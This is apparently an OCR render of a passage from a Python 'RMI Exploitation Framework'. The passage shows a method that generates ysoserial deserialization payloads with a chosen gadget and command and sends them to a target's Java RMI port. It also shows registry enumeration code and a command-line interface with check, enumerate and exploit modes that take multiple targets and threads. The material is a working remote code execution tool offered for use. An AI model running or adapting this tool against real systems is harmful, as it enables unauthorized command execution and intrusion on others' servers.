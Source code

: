```python
            ])
            
            sock.send(payload)
            response = sock.recv(4096)
            
            if response and len(response) > 50:
                return True, f"Registry enumeration possible: {response.hex()}"
            return False, "Registry enumeration failed"
            
        except Exception as e:
            return False, f"Enumeration failed: {str(e)}"
        finally:
            try:
                sock.close()
            except:
                pass
    
    def send_ysoserial_payload(self, target, port, gadget, command):
        """Send ysoserial payload to RMI service"""
        try:
            # Generate payload using ysoserial (external call)
            import subprocess
            import tempfile
            
            with tempfile.NamedTemporaryFile(delete=False) as tmp:
                subprocess.run([
                    "java", "-jar", "ysoserial.jar", 
                    gadget, command
                ], stdout=tmp, check=True)
                tmp.flush()
                
                # Read payload and send
                with open(tmp.name, "rb") as f:
                    payload = f.read()
                
                sock = socket.socket(socket.AF_INET, socket.SOCK_STREAM)
                sock.settimeout(self.timeout)
                sock.connect((target, port))
                sock.send(payload)
                
                response = sock.recv(1024)
                return True, "Payload sent successfully"
                
        except Exception as e:
            return False, f"Payload delivery failed: {str(e)}"
        finally:
            try:
                sock.close()
            except:
                pass

def main():
    parser = argparse.ArgumentParser(description="RMI Exploitation Framework")
    parser.add_argument("target", help="Target IP or file containing targets")
    parser.add_argument("-p", "--port", type=int, default=1099, help="RMI port")
    parser.add_argument("-t", "--threads", type=int, default=10, help="Thread count")
    parser.add_argument("--check", action="store_true", help="Check RMI service")
    parser.add_argument("--enumerate", action="store_true", help="Enumerate registry")
    parser.add_argument("--exploit", action="store_true", help="Send ysoserial payload")
    parser.add_argument("--gadget", help="Ysoserial gadget to use")
    parser.add_argument("--command", help="Command to execute")
    
    args = parser.parse_args()
```